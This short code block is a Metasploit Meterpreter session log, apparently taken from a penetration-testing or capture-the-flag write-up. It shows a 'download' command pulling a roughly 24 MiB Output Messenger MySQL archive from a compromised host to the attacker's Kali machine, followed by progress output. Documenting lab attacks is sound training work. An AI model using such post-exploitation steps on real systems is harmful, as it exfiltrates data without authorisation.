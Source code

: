 ```c
meterpreter > download OutputMessengerMysql.zip
[*] Downloading: OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 1.00 MiB of 24.30 MiB (4.12%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 2.00 MiB of 24.30 MiB (8.23%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 3.00 MiB of 24.30 MiB (12.35%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 4.00 MiB of 24.30 MiB (16.46%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 5.00 MiB of 24.30 MiB (20.58%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 6.00 MiB of 24.30 MiB (24.69%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 7.00 MiB of 24.30 MiB (28.81%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 8.00 MiB of 24.30 MiB (32.92%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 9.00 MiB of 24.30 MiB (37.04%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 10.00 MiB of 24.30 MiB (41.16%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 11.00 MiB of 24.30 MiB (45.27%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 12.00 MiB of 24.30 MiB (49.39%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 13.00 MiB of 24.30 MiB (53.5%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 14.00 MiB of 24.30 MiB (57.62%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 15.00 MiB of 24.30 MiB (61.73%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 16.00 MiB of 24.30 MiB (65.85%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 17.00 MiB of 24.30 MiB (69.97%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 18.00 MiB of 24.30 MiB (74.08%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 19.00 MiB of 24.30 MiB (78.2%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 20.00 MiB of 24.30 MiB (82.31%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 21.00 MiB of 24.30 MiB (86.43%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 22.00 MiB of 24.30 MiB (90.54%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 23.00 MiB of 24.30 MiB (94.66%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 24.00 MiB of 24.30 MiB (98.77%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Downloaded 24.30 MiB of 24.30 MiB (100.0%): OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
[*] Completed  : OutputMessengerMysql.zip -> /home/kali/OutputMessengerMysql.zip
```
